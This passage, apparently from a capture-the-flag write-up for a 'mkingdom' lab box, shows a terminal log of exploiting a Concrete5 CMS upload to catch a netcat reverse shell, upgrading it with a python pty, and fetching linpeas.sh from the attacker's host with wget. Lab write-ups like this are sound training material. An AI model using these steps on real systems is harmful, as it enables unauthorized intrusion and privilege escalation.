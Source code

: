 &nbsp;

While testing the **Concrete5 CMS** instance at `/app/`, it was observed that after some modifications to the upload functionality, the server accepted **PHP files**.

&nbsp;

&nbsp;

`──(root㉿kali)-[~kali/Bug_Bounty/ctf/mkingdom]`  
`└─# nc -lnvp 4444`  
`listening on [any] 4444 ...`  
`connect to [10.9.240.91] from (UNKNOWN) [10.201.74.68] 53828`  
`Linux mkingdom.thm 4.4.0-148-generic #174~14.04.1-Ubuntu SMP Thu May 9 08:17:37 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux`  
   ` 00:47:58 up 42 min, 0 users, load average: 0.00, 0.00, 0.00`  
`USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT`  
`uid=33(www-data) gid=33(www-data) groups=33(www-data),1003(web)`  
`/bin/sh: 0: can't access tty; job control turned off`  
`$ python -c 'import pty;pty.spawn("/bin/bash")'`  
`www-data@mkingdom:/$ ls`  
`ls`  
`bin dev initrd.img lib64 mnt root srv usr vmlinuz.old`  
`boot etc initrd.img.old lost+found opt run sys var`  
`cdrom home lib media proc sbin tmp vmlinuz`  
`www-data@mkingdom:/$ cd /home`  
`cd /home`  
`www-data@mkingdom:/home$ ls`  
`ls`  
`mario toad`  
`www-data@mkingdom:/home$ cd mario`  
`cd mario`  
`bash: cd: mario: Permission denied`  
`www-data@mkingdom:/home$ cd toad`  
`cd toad`  
`bash: cd: toad: Permission denied`  
`www-data@mkingdom:/home$ cd /tmp`  
`cd /tmp`  
`www-data@mkingdom:/tmp$ ls`  
`ls`  
`www-data@mkingdom:/tmp$ wget http://10.9.240.91:8000/linpeas.sh`  
`wget http://10.9.240.91:8000/linpeas.sh`  
`--2025-08-29 00:52:11-- http://10.9.240.91:8000/linpeas.sh`  
`Connecting to 10.9.240.91:8000... connected.`  
`HTTP request sent, awaiting response... 200 OK`  
`Length: 956174 (934K) [text/x-sh]`  
`Saving to: 'linpeas.sh'`  
`100%[======================================>] 956,174 434KB/s in 2.2s`  
`2025-08-29 00:52:14 (434 KB/s) - 'linpeas.sh' saved [956174/956174]`  
`www-data@mkingdom:/tmp$ ls`  
`ls`  
`linpeas.sh`
